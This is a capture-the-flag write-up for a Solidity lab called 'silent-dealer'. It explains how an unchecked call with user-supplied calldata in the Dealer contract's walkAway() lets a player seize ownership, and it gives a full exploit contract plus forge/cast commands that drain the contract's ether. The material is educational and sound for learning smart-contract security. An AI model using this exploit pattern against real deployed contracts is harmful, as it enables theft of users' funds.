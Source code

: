 Here we have 2 source code, one is *Setup.sol* and another one is *Dealer.sol*, in order to make *Setup.sol::isSolved()* returns true, we must make the balance of *Dealer Contract* become 0 and the *owner* is no longer *Setup Contract*.
&nbsp;  
&nbsp;  
```solidity
contract Setup{
    Dealer public dealer;

    constructor() payable{
        dealer = new Dealer();
        dealer.joinGame{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(dealer).balance == 0 && dealer.owner() != address(this);
    }

}
```
&nbsp;  
based on the inital setup, we know that the current owner is *Setup Contract* and it has 50 Ether. Let's take a tour to the *Dealer Contract* now,
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Dealer{
    bool public readyToRig;
    address public owner;
    uint256 public rewardPool;
    mapping(address => uint256) public balanceOf;

    constructor() payable{
        owner = msg.sender;
    }

    function joinGame() public payable{
        require(msg.value >= 5 ether, "Must Deposit Minimum of 5 Ether!");
        balanceOf[msg.sender] += msg.value;
    }

    function bet(uint256 _amount) public{
        require(balanceOf[msg.sender] >= 5 ether, "Need 5 Ether to bet");
        require(_amount >= 2 ether, "Start with 2");
        rewardPool += balanceOf[owner];
        balanceOf[owner] = 0;
        rewardPool += _amount;
        balanceOf[msg.sender] -= _amount;
        readyToRig = true;
    }

    function startRiggedBet() public onlyOwner{
        require(readyToRig == true, "Pool is not filled!");
        balanceOf[owner] += rewardPool;
        rewardPool = 0;
        readyToRig = false;
    }

    function endWholeGame() public onlyOwner{
        uint256 toSend = balanceOf[owner];
        (bool sent, ) = owner.call{value: toSend}("");
        require(sent, "Ending Game Failed!");
    }

    function walkAway(address _to, bytes memory message) public {
        require(readyToRig == true, "You want to wal away empty handed?");
        uint256 leftAmount = balanceOf[msg.sender];
        balanceOf[msg.sender] -= leftAmount;
        (bool sent, ) = _to.call{value: leftAmount}(message);
        require(sent, "You can't run it seems.");
    }

    function changeOwner(address _newOwner) public payable{
        require(msg.sender == address(this), "Only Dealer can change owner");
        owner = _newOwner;
        balanceOf[owner] += msg.value;
    }

    modifier onlyOwner(){
        require(msg.sender == owner, "Only Owner can start bet!");
        _;
    }

    receive() external payable {
        if(msg.value == 5 ether){
            balanceOf[msg.sender] += msg.value;
        }else{
            rewardPool += msg.value;
        }
    }
}
```
&nbsp;  
We can see that it can receive ether with 2 functions, the *joinGame()* and *receive()*, the only difference is when we use joinGame, it require us to send at least 5 Ether, while the receive function has a logic when the amount is exactly 5 Ether only then it will be added to our balance, else it will be added to the rewardPool. &nbsp;  
&nbsp;  
The *bet()* function allow us to put our money on the line, while we have the freedom to choose how many money we want to spend, the *owner* seems to go all-in, kinda weird right. Turns out, the next function *startRiggedBet()* will actually make the owner always win since it transfered all the rewardPool to the owner, and after that the owner could call *endWholeGame()* and just get all the money there. &nbsp;  
&nbsp;  
We as a player also have an option, but that only available after we *bet()* some of our money, we can just *walkAway* with the money we have left and leave a message... oh well, we can leave a message that is being handled by *call()*, with that we can actually call *changeOwner()* and make ourselves the *owner*, thic could happened because if we parse a bytes that actually a function call, what's a function call? In Ethereum, they call a function by giving a 4 bytes or what often call function selector or signature, it's the first 4 bytes of *keccak256(functionName(args_type))*. &nbsp;  
&nbsp;  
So here is what are we going to do: &nbsp;  
&nbsp;  
1. We *joinGame()* with 5 Ether
2. We *bet()* 3 Ether
3. We *walkAway()*, current rewardPool is 53 Ether, but we transfering the money to *dealer* by providing his address effectively giving it 2 Ether (our leftAmount) and parse a message containing the call of *changeOwner(address)* with the address pointing to our Exploit Contract
4. The current owner will be our Exploit Contract, we can just *startRiggedBet()*, taking all the rewardPool
5. Transfer all money to our pocket by calling *endWholeGame()*

&nbsp;  
The message that we are going to provide will be consisting the btyes of the *changeOwner()* selector and the address of our Exploit contract, it is constructed like this &nbsp;  
&nbsp;  
```test
// Default Construction
[4 bytes - selector] [32 bytes - Data/Args ] [can add more 32 bytes (SLOT) if needed]

// changeOwner(address) - newOwner address
0xa6f9dae1 000000000000000000000000 00648ca25a2e54b636c22cd5e1df72da69570aa2
|selector| |   padding 12 bytes   | |     newOwner Address - 20 bytes      |
|4 bytes | |-------------------------32 bytes / 1 SLOT---------------------|
```
&nbsp;  
How do we get *0xa6f9dae1*? Well we can use the build in function of *abi.encodeWithSignature(funcName(args-type), args-value)*, in our contract to parse this. OKay now that we understand what we need to do and how to do it, here is the full exploit to finally solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Dealer.sol";

contract Exploit{
    Dealer public dealer;
    Setup public setup;

    constructor(address _setup) payable{
        setup = Setup(_setup);
        dealer = Dealer(setup.dealer());
    } 

    function exploit() public{
        dealer.joinGame{value: 5 ether}();
        dealer.bet(3 ether);
        dealer.walkAway(address(dealer), abi.encodeWithSignature("changeOwner(address)",address(this)));
        dealer.startRiggedBet();
        dealer.endWholeGame();
    }

    receive() external payable { }

}
```
&nbsp;  
We just need to deploy the solver and give it 5 Ether to execute the *joinGame*, here is how you can do it. &nbsp;  
&nbsp;  
```bash
// deploy the contract
forge create src/silent-dealer/$EXPLOIT_SOL:$EXPLOIT_NAME -r $RPC --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Launch the Exploit
cast send -r $RPC --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Now you should've solved the lab!
